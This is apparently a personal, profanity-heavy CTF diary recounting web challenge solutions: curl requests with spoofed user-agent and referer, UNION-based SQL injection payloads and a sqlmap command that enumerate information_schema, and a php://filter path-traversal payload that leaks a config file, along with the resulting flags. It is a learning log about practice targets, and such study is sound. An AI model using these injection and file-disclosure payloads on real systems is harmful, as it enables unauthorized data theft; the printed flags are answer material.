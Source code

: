 #view it in code mode for a smoother exp =)
warning , quite the extreme language usage forward as i mainly document challneges that i get stuck on , therefore a lil venting after challenge si quite essential 

alright its 3 50 in the fcuking morning idk what better to do than ctf instad of sleeping, writeup time....

curl -X POST -d "username=admin&pass -d=71up-dnlkadsf" http://165.227.106.113/post.php
this is the challange link btw , you need to login to see -> https://ctflearn.com/challenge/114 

welp apparenntly this command is quite useful , yeah... 
curl or client URL can help you get the webpage from terminal (as if you dont have a browser....)
it also has parameters you can use to send data for example , nice right ? (as if a browser couldnt do it)
according to the curl -h , the -d parameter allows you to send data ain a form of http post request . honestly have no idea what the -X means ahah
ok i lied , the first part of the command curl -X POST is to specify the method using the -X parameter and POST being the method in this case(other methods such as GET)
the -d basically as mentioned above allows you to send/POST data and specifies the data you want to send 

ive completed my first writeup?
i like to call them notes or better known as references , writeup too formal for this bullshit 
for now this thing is named the bloodflame archive cuz i have no idea what to name it while also listening to ERB (would have been an amazing pun if i was writting thsi on ARCH instaed of ubuntu...)
y'knwo what , maybe this can be known better as my CTF diary since i yap so much bs here ahhahaa
aaaaaaaaany ways since i last formatted pc , i lost all my progress(diary) on SKR, gotta redo it here , for now this is all i have , im a poor man , poor of information 
its 4 01 , my sleep is fucked, i havent finished my dailies , im going to sleep , need to contol the ctf addiction !!!


# kk challenge 2 
another curl challange yay!!!
first try was -> curl http://165.227.106.113/header.php
- error got error saying wrong user agent , so curl mentioned that i can specify an agent (whatever that is) to enter the site.
so i tried curl --user-agent Sup3rS3cr3tAg3nt http://165.227.106.113/header.php which used the agent given by the site
- next error says i did not come from a site called awesomesauce.com (how dare he discriminate me)
therefore after some bs and more bs , i figured that i couuld use a referer
found out using curl -help all   which btw shows all functions of curl
then the command become like this and the flag came out idk how hahahha 

curl -e awesomesauce.com  --user-agent Sup3rS3cr3tAg3nt http://165.227.106.113/header.php

challenge link -> https://ctflearn.com/challenge/109

yup thats all , fair diffuculty for meduim , my brain not too fucked HAHHAHA

# challange 3
I HAVE TO SAY , NO WEED OR GACHA PULLS SHOULD BE ABLE TO BEAT THE HIGH I JUST FELT SOLVING MY FIRST HARD CHALLANGE 
alright so heres the story and challenge link : https://ctflearn.com/challenge/149
so yeah this gonna be a long story , future me or whoever i share this with , get ready

the website has a simple ui that allows you to search for dogs by typing in an id (no checking btw)
after some test , there are 3 dogs in the database each with id 1-3
When each of these numbers are types in , the page displays the dog name , breed and color 

1st attempt starts with a basic sql injection from -> https://www.w3schools.com/sql/sql_injection.asp
The page then returned the data of all 3 dogs. 
This proves the site is inject-able and vulnerable.
Next step , find the damn flag...

In the challege tittle , it mentions union is a good command.
In sql , union basicaly uunites things, allowing the user to combinee the output of 2 select commands together provided they are of same datatype. 
Both select command also need to select the same command. 
Well, guess what i did , yes i tried to guess the style of the query like an idiot. 
1st guess : select * from dogs where id = 'userinput'
with this many attempts i took and none succeeded , not even outputting the 1st dog's name. 

After a few hours of searching , i came across something about information.schema.tables. 
OH , after 1 semester of sql , i didnt even know this table existed....
In fact , many more tables not only this one....
that aside, i tried to enter some strings like 

' UNION NULL,NULL,NULL,NULL -- 
as i figured that the table would only have a maximum of 4 columns.

' UNION SELECT * FROM information.schema.tables -- 
as i thought i might just get everything from that table, unfortunately no...

1 or 2 days later (i forgot , memory got hazy from all the sqli)
i looked up union attacks and even tried to intercept the request with burpsuite , no luck
Then i re-read the comments and saw a tool named sqlmap which many claimned to be the easiest way to do it. 
I looked up the github , and installed the tool on my ubuntu. 

At first i ran it  - python3 sqlmap.py -url "https://web.ctflearn.com/web8/?id=1"
not much return , following the error messages , i slowly finetune the command into this thing: 
python3 sqlmap.py -url "https://web.ctflearn.com/web8/?id=1" --technique=U --random-agent --dbms=mysql --tamper=space2comment

cant explain all but i know what some do
- url specifies the url to attack
- technique specifies the technique to use in this case being a union attack
- dbms specifies the database type which sqlmap has already found out being mysql
- i have absolutely no idea what the other 2 do but here is the explanation -> https://github.com/sqlmapproject/sqlmap/wiki/Usage

finally the program returned 3 files, a log file , target file and lastly a file named 'session.sqlite'
unfortunatly the session file could not be opened while both text files were repeated information showed in the terminal 
but it DID give something useful, which was the payload used to attack:

Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a7071,0x736746507445514d6c6d794b6e65535a4d514a784959674a694474465443666e4145794e51454e41,0x7162787071),NULL-- -


i then used the payload to craete this attempt: 
1 UNION ALL SELECT NULL,CONCAT(0x71626a7071,0x736746507445514d6c6d794b6e65535a4d514a784959674a694474465443666e4145794e51454e41,0x7162787071),NULL,NULL-- -
it worked but only returned the decryped hex value in the input. 
references for this attempt : https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/ 

Next attempt :
1 UNION ALL SELECT TABLE_NAME,TABLE_TYPE,TABLE_CATALOG,TABLE_SCHEMA FROM information_schema.tables-- -
the page returned many tables but one felt off, it was w0w_y0u_f0und_m3
sadly it was not the flag...
references for this try : https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.htmlc , https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/

3rd attempt: 
1 UNION ALL SELECT TABLE_NAME,COLUMN_NAME,TABLE_SCHEMA,TABLE_CATALOG FROM information_schema.columns-- -
this time the page returned many things , including a column 'f0und_m3' from the table 'w0w_y0u_f0und_m3'


last attempt : 
1 UNION ALL SELECT NULL,f0und_m3,NULL,NULL FROM w0w_y0u_f0und_m3-- -
it returned the information of the first dog and the flag 

alright thats a grandfather level story , time to rest , enough games today 

# 4 
okok legit final oen for today
challenge -> https://ctflearn.com/challenge/691

this one quite simple, nc commect to the server , play the betting game 
simple concept of betting , guess a number, win = ur money + initial bet, loose = initial money - bet
so if 500 - 500 = 1000 , that explains all i need to redeem the flag 


# 5
OK next one , this one not fully solve by me thanks to a community fella in their dc server , still gotta record this thing down for fun
This ctf is a indi one called 3108 , merdeka themed
challenge link (not sure how long it will be up) = https://b1bf68f7fd.bahterasiber.my/

When you open the link , you immediately get blasted by music which sets you in merdeka mood. THere are 3 songs, keranamu Malaysia , tanggal31 and Jalur Gemilang
there are 3 hyeriinks which will each display the lyrics of one of the songs and an audio player to play the song and sing along. 

starting of all web challenge it to look at its source code, it was short , very short
the entire script was :
    function setPage(page) {
        const encodedPage = btoa(page);
        document.cookie = "page=" + encodedPage + ";path=/";
        location.reload();
    }

so i tried to do path traversal first realizing i was dumb

then i followed the 5 line script which by the way wil trigger everytime one of the hyperlinks are clicked and set the "page" variable to the respective page
then it encodes the page in base 64 and sets it into the cookie named page
finally, it reloads the page 

i tried to use burpsuite for at least 5 hours trying different cookies and paths 
i even got access to etc/passwd and /bin/bash
that aside i also tried to extract information from the audio and even the BACKGROUND IMAGE using binwalk and stings, no luck.

finally after so many tries , time was up and i asked 
to apparently i was right but wrong, i used php wrapper but not on the config , only on the index file 


yeah thats it , you use the wrapper on the config file : php://filter/convert.base64-encode/resource=../../../var/www/html/config.php


the website returned : PD9waHAKJGhvc3QgPSAibG9jYWxob3N0IjsKJHVzZXJuYW1lID0gImN1YmFhbiBtZW5nZWhhY2sga2EgaXR1IjsKJHBhc3N3b3JkID0gIjMxMDh7bTRyMV9rMXQ0X3c0cmc0X24zZzRyNH0iOwokZGF0YWJhc2UgPSAiZmxhZyI7CgokY29ubiA9IG5ldyBteXNxbGkoJGhvc3QsICR1c2VybmFtZSwgJHBhc3N3b3JkLCAkZGF0YWJhc2UpOwoKaWYgKCRjb25uLT5jb25uZWN0X2Vycm9yKSB7CiAgICBkaWUoIkNvbm5lY3Rpb24gZmFpbGVkOiAiIC4gJGNvbm4tPmNvbm5lY3RfZXJyb3IpOwp9CgplY2hvICJDb25uZWN0ZWQgc3VjY2Vzc2Z1bGx5IjsKPz4K


when decoded we get the php file and BOOM its there : 
<?php
$host = "localhost";
$username = "cubaan mengehack ka itu";
$password = "3108{m4r1_k1t4_w4rg4_n3g4r4}";
$database = "flag";

$conn = new mysqli($host, $username, $password, $database);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

echo "Connected successfully";
?>

# 6
i spent wayyyyyyyyyyyyyyyyyyyyyyyy too much time on this bs











